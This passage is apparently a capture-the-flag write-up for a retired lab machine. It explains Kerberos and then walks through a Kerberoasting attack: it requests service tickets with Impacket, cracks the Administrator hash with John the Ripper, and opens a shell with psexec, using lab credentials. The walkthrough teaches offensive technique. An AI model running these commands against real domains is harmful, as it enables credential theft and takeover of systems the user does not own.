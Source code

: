 * The Authentication Service (AS): The AS is responsible for issuing tickets to users.
    
* The Ticket Granting Service (TGS): The TGS is responsible for issuing tickets to services.
    

![](https://miro.medium.com/v2/resize:fit:633/0*VekV2SHYhiRct1_S.png align="left")

Here is an example of how Kerberos works:

1. A user wants to access a network service.
    
2. The user’s computer sends a request to the KDC.
    
3. The KDC issues a ticket to the user.
    
4. The user’s computer sends the ticket to the service.
    
5. The service verifies the ticket and grants the user access.
    

Kerberos is a secure protocol because it uses encryption to protect the tickets. This means that even if an attacker intercepted a ticket, they would not be able to use it to authenticate themselves to the service.

Kerberos is a widely used protocol and is supported by many operating systems and applications. It is a key component of many enterprise security solutions.

If you compromise a user that has a valid Kerberos ticket-granting ticket (TGT), then you can request one or more ticket-granting service (TGS) service tickets for any Service Principal Name (SPN) from a domain controller.

A portion of the TGS ticket is encrypted with the hash of the service account associated with the SPN. Therefore, you can run an offline brute force attack on the encrypted portion to reveal the service account password. Therefore, if you request an administrator account TGS ticket and the administrator is using a weak password, we’ll be able to crack it!

We’ll be using Impacket to work on this.

```bash
impacket-GetUserSPNs -request -outputfile kerberoastable.txt -dc-ip 10.129.40.252 'active.htb/SVC_TGS:GPPstillStandingStrong2k18'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738954887080/09fbeea1-2170-4877-ac15-ce48f6f976ad.png align="center")

We were able to request a TGS from an Administrator SPN. If we can crack the TGS, we’ll be able to escalate privileges!

```bash
john --wordlist=/usr/share/eaphammer/wordlists/rockyou.txt kerberoastable.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1738955234439/6cd801b5-a8d6-4988-a9b2-a36faa826f60.png align="center")

We got the password `Ticketmaster1968`. Now, as we have Adminisrator password let’s use psexec to get a shell.

```bash
impacket-psexec active.htb/Administrator:'Ticketmaster1968'@10.129.40.252
```
